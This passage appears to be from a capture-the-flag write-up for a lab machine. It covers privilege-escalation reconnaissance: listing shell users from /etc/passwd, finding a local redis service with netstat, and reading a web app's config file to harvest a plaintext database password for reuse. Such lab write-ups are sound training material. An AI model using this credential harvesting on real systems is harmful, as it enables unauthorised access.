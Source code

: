 ```bash
Started: Mon Oct 17 00:17:26 2022
Stopped: Mon Oct 17 00:17:29 2022
```
And this is a valid username:password for ssh


## Privesc from james to dan

Probing around to see what we can find, users with a shell are james root and dan, and the user flag is in dan
```bash
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```

There's the mysql we already looted and something on port 6379
```bash
netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      106        13494      -
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      0          284021     -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          13447      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          12591      -
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      0          13448      -
tcp6       0      0 :::22                   :::*                    LISTEN      0          12593      -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12476      -
```

That's a redis instance
```bash
grep 6379 /etc/services
redis           6379/tcp
```

We have already looted the MySQL database, but the password for it may be useful somewhere else
```bash
cat /var/www/checkout.shared.htb/config/db.php
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>
```
